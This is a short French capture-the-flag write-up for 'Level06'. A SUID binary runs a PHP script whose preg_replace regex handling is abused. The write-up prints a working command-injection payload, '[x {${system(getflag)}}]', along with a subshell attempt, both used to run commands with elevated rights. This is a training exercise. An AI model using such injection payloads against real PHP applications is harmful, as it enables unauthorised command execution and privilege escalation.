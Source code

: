 # Level06

[ENGLISH version](README_EN.md)

## Comment récuperer le flag

On peut voir deux fichier dans le home.

Un fichier level06.php et un fichier level06 qui est un programme C compilé.

Ce dernier possède un bit SUID.

En le decompilant, on peut voir dans son code source qu'il utilise execve, mais appele également le fichier php.

Dans le fichier PHP, on peut voir des regex.

En utilisant https://regex101.com/ pour les comprendre, on peut voir qu'elle remplacent certaines parties de texte par d'autre, grace a preg_replace.

On peut aussi voir que le fichier PHP essaie d'acceder a un fichier, avec get_file_content

En se basant sur les challenges precedent, on peut réussir a executer des commandes en utilisant des sous shells. Par exemple,

```
echo "$(getflag) > /tmp/pass2" > /tmp/test
./level06 /tmp/test 
```

retourne:

Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :) > /tmp/pass2

En debugant les regex, on peut récuperer le flag en faisant:

```
echo '[x {${system(getflag)}}]' > /tmp/test
./level06 /tmp/test
```

## Le flag

Le flag lu est celui utilisable pour se connecter a level06